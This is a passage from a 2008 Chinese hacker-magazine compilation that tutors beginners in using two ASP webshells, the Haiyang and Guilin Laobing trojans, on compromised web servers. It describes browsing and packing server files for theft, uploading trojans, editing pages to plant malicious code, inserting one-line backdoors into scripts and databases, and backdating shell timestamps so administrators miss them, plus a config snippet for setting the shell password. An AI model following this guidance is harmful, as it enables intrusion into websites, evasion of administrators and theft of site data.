


#### 7、FSO & Shell.Application 文件浏览操作器

这个功能模块可以说是海阳木马的主体部分（图 15，图 16），因为它可以查看当前 WEB 权限能够查看的所有文件（当然不止 WEB 目录下的文件），可以通过盘符来访问各个磁盘分区。其中的“.”代表海阳木马存放的目录，“/”代表当前站点的根目录。Shell.Application 文件浏览器还可以访问“我的电脑”、“控制面板”里的东西哦。

# 菜鸟学堂

## 2008 合订本上卷





可以分为六小功能模块，当然最主要的还是对磁盘中文件及其文件夹的浏览。进入一个目录后，可以选择新建菜单来建立文件或者文件夹（图17），通过这个功能可以方便的在服务器上建立一个新的文件或者文件夹。注意别忘了刷新哦。

| 新建 | 更名 | 编辑 | 打开 | 复制 | 剪切 | 粘贴 |
| --- | --- | --- | --- | --- | --- | --- |
| ↑向上 | 后退 | 前进 | C:\Inetpub\wwwroot |





进入一个目录后，可以选择上传按钮把本地的文件上传到服务器上（图18），可以上传文本文件、木马程序、图片等，总之就是想传什么就传什么。
选中一个文件或者文件夹，然后选择重命名按钮（图19），可以将文件或者文件夹更改名字。
选中一个文件，然后选择编辑按钮（图20），就可以进入文件编辑状态，我们可以轻松的更改文件的内容，比如改代码、挂马等操作。

| 新建 | 更名 | 编辑 | 打开 | 复制 | 剪切 | 粘贴 |
| --- | --- | --- | --- | --- | --- | --- |
| ↑向上 | 后退 | 前进 | C:\Inetpub\wwwroot |




| 编辑 | 打开 | 复制 | 剪切 | 粘贴 | 属性 | 插入 | 删除 |
| --- | --- | --- | --- | --- | --- | --- | --- |



选中一个文件或者文件夹，然后选择属性按钮（图 21），就可以查看选中的文件或者文件夹的属性信息。当使用 Shell.Application 文件浏览器时（图 22），还是设置修改时间，大多数管理员是通过查看最后修改时间来查杀我们上传的 ASP 木马的，使用这个功能把 ASP 木马修改为和其它文件相同时间，这样就可以躲过查杀了。




选中一个脚本文件或者 ACCESS 数据库，然后选择插入按钮（图 23），就可以将一句话木马插入其中，插入的一句话木马是海阳木马默认的，可以在源代码中进行修改。剩下的就是下载、复制、粘贴、剪切等功能了，相信使用过 WINDOWS 的朋友肯定不在话下了。

#### 8、微软数据库查看 / 操作器

这个功能模块可以查看 ACCESS 和 MSSQL 数据库的内容（图 24），使得我们不用去下载整个的数据库就能得到其中有用的信息。因为 ACCESS 和 MSSQL 的连接字符不同，所以也就需要填写不同的信息。

ACCESS 的数据库直接写入其物理路径及其文件名即可（图 25）。MSSQL 数据库则需要填写长长的连接范例，其中需要数据库的地址（本机可以为 localhost），登录帐号及其密码还有所连接的数据库名字，连接范例为 sql:Provider=SQLOLEDB.1; Server=localhost;User ID=sa;Password=haiyangtop; Database=bbs;，它的意思就是使用帐号为 SA 密码为 haiyangtop 连接到本机 MSSQL 的 BBS 数据库上。


#### 9、文件夹打包 / 解开器

这个功能模块可以轻松的将任意有读权限的目录进行打包（图 26），打包后的文件放在那里呢？在海阳木马的同级目录下，生成打包文件 HYTop.mdb，只需要把这个文件下载回来，然后再使用自带的工具（pack.vbs）进行解开就可以了。很多拿别人网站的兄弟都是用这个的哦！



#### 10、文本文件搜索器

这个功能模块可以在服务器上找到你想要的东西（图 27），确定好关键字就可以让它自己去搜索了，只针对文本文件哦！

# 菜鸟学堂 2008 合订本上卷



#### 11、一些零碎的小东西

这个功能模块里存放着一些不起眼的小功能（图28），但是不能小瞧，真的有可能在入侵过程中用得到的。数值转换，可以将字符在十进制和十六进制之间转换；下载到服务器，可以将远程的的文件下载到该服务器上；文件编辑，可以使用FSO或者Stream进行编辑；管理帐号添加，虽然成功率极低，但是还是可以尝试一下的；注册表键值读取，在入侵中相当有用的功能，比如最近的RADMIN的HASH。

我们已经很全面的剖析了海洋顶端ASP木马的各个功能，下面再来简单介绍一下桂林老兵的ASP木马，也好让大家熟悉一下除海洋之外的ASP木马的使用。

跟海阳马一样，在上传之前还是需要手工修改部分代码（图29）。使用记事本打开dbm6.asp文件，其中需要修改的有：

```
ApplicationName = "Asp站长助手6.0"   //程序名称 / 标题
UserPass = "gxgl.com"           //登录密码
```



修改完毕后就可以上传了，然后在浏览器中直接访问即可（图30），输入密码就可以进入主界面（图31）。

其界面和海阳虽然不太一样，但是其主要的功能还是差不多的，左面程序会自动列出所有的磁盘分区，方便对文件的读取和修改。

右侧则是当前WEB目录的文件列表，再右侧是可以选择的功能，有编辑、删除、拷贝、移动。

选择编辑后，便进入了编辑状态（图32），感觉和海阳木马差不多吧。其余的三个就不一一介绍了。







